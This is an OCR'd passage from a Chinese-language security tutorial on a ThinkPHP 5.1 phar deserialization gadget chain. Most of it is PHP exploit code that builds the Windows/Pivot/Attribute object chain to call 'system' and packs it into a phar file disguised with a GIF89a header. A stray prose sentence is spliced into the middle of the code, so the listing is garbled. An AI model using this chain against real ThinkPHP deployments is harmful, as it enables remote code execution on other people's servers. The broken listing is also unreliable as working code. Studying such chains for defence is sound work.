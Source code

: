 利用链使用了 Tp5.1 反序列化利用链 (后续的阶段会对 Tp 反序列化利用链进行分析)，我们将该文件生成 phar 文件。

```plain
<?php
namespace think\process\pipes {
  class Windows
 {
    private $files;
    public function __construct($files)
   {
      $this->files = [$files];
   }
 }
}
namespace think\model\concern {
  trait Conversion
 {
 }
  trait Attribute
 {
    private $data;
    private $withAttr = ["v" => "system"];
    public function get()
   {
      $this->data = ["v" => "calc"];
   }
 }
这里生成我们的 pahr 文件，如果生成时报错了可以将 php.ini 配置文件中的 phar.readonly 选项设置为
Off 就可以成功生成了。

}
namespace think {
  abstract class Model
 {
    use model\concern\Attribute;
    use model\concern\Conversion;
 }
}
namespace think\model{
  use think\Model;
  class Pivot extends Model
 {
    public function __construct()
   {
      $this->get();
   }
 }
}
namespace {
  $conver = new think\model\Pivot();
  $a = new think\process\pipes\Windows($conver);
  @unlink("phar.phar");
  $phar = new Phar("phar.phar"); //后缀名必须为 phar
  $phar->startBuffering();
  $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置 stub
  $phar->setMetadata($a); //将自定义的 meta-data 存入 manifest
  $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
  $phar->stopBuffering();
}
?>
```
